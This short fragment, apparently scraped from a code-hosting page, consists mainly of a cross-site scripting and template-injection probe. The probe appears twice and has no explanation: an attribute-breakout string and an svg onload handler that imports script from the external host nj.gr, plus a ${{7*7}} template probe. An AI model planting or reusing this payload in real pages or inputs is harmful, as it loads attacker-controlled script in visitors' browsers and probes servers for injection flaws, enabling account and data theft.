 # '"><s><svg onload=import(/\nj.gr/)>${{7*7}}
'"><s></s>svg onload=import(/\nj.gr/)>${{7*7}}

<details test=test>💩
